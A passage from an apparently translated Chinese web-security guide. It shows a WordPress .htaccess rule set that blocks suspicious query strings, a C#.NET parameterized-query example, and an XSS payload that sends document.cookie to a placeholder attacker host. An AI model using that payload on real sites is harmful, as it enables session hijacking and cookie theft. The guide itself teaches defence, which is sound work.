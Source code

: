 ```
      RewriteCond %{QUERY_STRING} ^.*(127\.0).* [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*(globals|encode|localhost|loopback).* [NC,OR]
      RewriteCond %{QUERY_STRING} ^.*(request|concat|insert|union|declare).* [NC]
      RewriteCond %{QUERY_STRING} !^loggedout=true
      RewriteCond %{QUERY_STRING} !^action=jetpack-sso
      RewriteCond %{QUERY_STRING} !^action=rp
      RewriteCond %{HTTP_COOKIE} !^.*wordpress_logged_in_.*$

      # Rules to block foreign characters in URLs	RewriteCond %{QUERY_STRING} ^.*(%0|%A|%B|%C|%D|%E|%F).* [NC]
      RewriteRule ^(.*)$ - [F]

      # Rules to help reduce spam
      RewriteCond %{REQUEST_METHOD} POST
      RewriteCond %{REQUEST_URI} ^(.*)wp-comments-post\.php*
      RewriteCond %{HTTP_USER_AGENT} ^$
    </IfModule>
# Custom error document redirects

ErrorDocument 400 /wp-content/plugins/bulletproof-security/400.php
ErrorDocument 401 default
ErrorDocument 403 /wp-content/plugins/bulletproof-security/403.php
ErrorDocument 404 /404.php
ErrorDocument 405 /wp-content/plugins/bulletproof-security/405.php
ErrorDocument 410 /wp-content/plugins/bulletproof-security/410.php
```

为了保持纵深防御，您必须对站点实施尽可能多的自动抵抗，但您将无法通过`.htaccess`阻止许多跨站点脚本攻击、SQL 注入攻击或缓冲区溢出攻击。

## 跨站点脚本的快速解决方案

跨站点脚本编写基本上是由来自浏览器的无效、未转义输入引起的。要阻止它在 Windows 应用程序服务器上发生，必须创建与应用程序体系结构配合使用的验证规则。OWASP 前 10 名主动式控制文档（[https://www.owasp.org/images/5/57/OWASP_Proactive_Controls_2.pdf](https://www.owasp.org/images/5/57/OWASP_Proactive_Controls_2.pdf) 显示了您可能正在开发应用程序的几种语言的查询参数化示例。下面是 C#.NET 的一个示例：

```
string sql = "SELECT * FROM Customers WHERE CustomerId = @CustomerId";
SqlCommand command = new SqlCommand(sql);
command.Parameters.Add(new SqlParameter("@CustomerId", System.Data.SqlDbType.Int));
command.Parameters["@CustomerId"].Value = 1;
```

XSS 可能会有许多不同的攻击，从轻微的站点破坏到会话劫持。下面是会话 hi 的一个示例。

```
'<script>
var img = new Image();
img.src="http://EvilHax0r.com?" + document.cookie;
</script>'
```

作为一名安全工程师，您可能需要展示攻击漏洞的漏洞代码示例，但您希望开发人员能够处理易受攻击页面的缓解代码。

## 减少缓冲区溢出
